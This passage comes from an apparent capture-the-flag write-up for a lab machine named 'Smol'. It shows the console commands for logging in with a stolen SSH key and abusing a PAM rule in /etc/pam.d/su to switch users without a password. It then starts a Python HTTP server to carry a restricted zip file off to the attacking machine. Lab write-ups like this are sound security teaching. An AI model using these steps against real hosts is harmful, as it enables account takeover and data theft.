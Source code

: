 Next we copy the key to our attacking machine so that we can use it to `ssh` into think's account

```console
┌──(kali㉿kali)-[~/Smol]
└─$ nano id_rsa 
```

Remember to set the correct permissions on the key

```console
┌──(kali㉿kali)-[~/Smol]
└─$ chmod 600 id_rsa 
```

Now we can use it to get a shell as think

```console
┌──(kali㉿kali)-[~/Smol]
└─$ ssh think@www.smol.thm -i id_rsa
think@smol:~$ 
```

### think to gege

When checking the config file for `su` you can see that the think user can switch to gege without using a password

```console
think@smol:~$ cat /etc/pam.d/su
...................

# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think

..................


```

```console
think@smol:~$ su gege
gege@smol:/home/think$
```

### gege to xavi

In gege's home directory we find a zip files that only gege and root can access, using gege's permissions we are going to download it onto our attacking machine so we can unzip it

We can use Python to open and http server on port 8080 that we can download the file from

```console 
gege@smol:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
